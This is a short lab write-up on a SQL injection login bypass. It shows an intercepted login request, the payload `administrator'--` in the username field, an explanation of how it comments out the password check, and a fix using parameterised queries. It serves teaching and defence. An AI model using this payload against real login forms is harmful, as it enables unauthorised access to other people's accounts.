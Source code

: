 # SQL Injection - Login bypass

## Goal:
This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

## Process

### 1. Login with random username and password
Username: user
Password: password

### 2. Intercept the login request using Burp Suite 
```http
POST /login HTTP/2
...
csrf=xyz&username=user&password=password
```

### 3. Modify the username and password parameter to inject SQL
**Injected Payload:**

```http
`csrf=xyz&username=administrator'--&password=''`
```
### 4. Explanation

`username=administrator` attempts to log in as administrator, `'` closes the string in the SQL query. `--` comments out the rest of the query and bypasses the password check.

**The SQL query becomes:**

```sql
SELECT * FROM users WHERE username = '" + username + "' --' AND password = '" + password +
```

This results in a successful login without verifying the password.

---

## How to fix this vulnerability

**Use Parameterized Queries (Prepared Statements)**

Never build SQL statements by directly concatenating user input. 

Vulnerable SQL query:
```sql
SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'
```

Safe version using prepared statements (python script):
```py
cursor.execute("SELECT * FROM users WHERE username = ? AND password = ?", (username, password))
```

Parameterised query treats user input as data, which prevents injection.

---

## Reflection

- Learnt how SQL injection can bypass login by manipulating input and commenting out the password check.
- Gained insight into securing authentication logic through **proper input handling**.

---

## Notes
Different python libraries use different placeholder syntax:

sqlite3 uses `?`

mysql-connector-python, psycopg2 use `%s`

---